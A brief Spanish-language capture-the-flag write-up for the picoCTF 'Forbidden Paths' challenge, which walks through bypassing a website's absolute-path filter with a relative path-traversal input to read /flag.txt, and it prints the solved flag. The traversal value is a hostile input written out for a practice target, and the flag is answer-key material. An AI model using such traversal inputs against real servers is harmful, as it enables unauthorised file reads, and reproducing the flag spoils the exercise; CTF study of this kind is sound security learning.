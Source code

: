 # Forbidden Paths
## Objetivo
Can you get the flag? Here's the [website](http://saturn.picoctf.net:58179/). We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?
## Datos de Acceso al Nivel
```
```
## Solucion
```Bash
Abrir pagina web
colocar path
"/usr/share/nginx/html/flag.txt"
click en read
click derecho > inspect
reintentar
click en network revisar mesajes POST y GET
sustituir ".." por cada carpeta incluida la raiz
"/usr/share/nginx/html/flag.txt"
" .. / ..  /  .. / .. /flag.txt"
click en read
copiar Flag
"picoCTF{7h3_p47h_70_5ucc355_6db46514}"
```
## Notas Adicionales
|**Comandos**|**Descripcion**|
|--------|-------------|
|||
|||
## Referencias


